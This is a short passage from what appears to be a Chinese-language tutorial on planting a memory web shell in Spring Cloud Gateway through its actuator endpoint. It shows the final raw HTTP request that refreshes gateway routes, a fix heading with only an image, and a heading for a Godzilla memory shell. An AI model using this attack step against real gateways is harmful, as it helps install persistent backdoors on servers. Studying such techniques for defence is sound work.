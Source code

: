 最后刷新下路由

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
![Spring-Cloud-Gateway-MemShell-4](assets/Spring-Cloud-Gateway-MemShell-4.png)

### 漏洞修复
![Spring-Cloud-Gateway-MemShell-5](assets/Spring-Cloud-Gateway-MemShell-5.png)

## 哥斯拉内存马
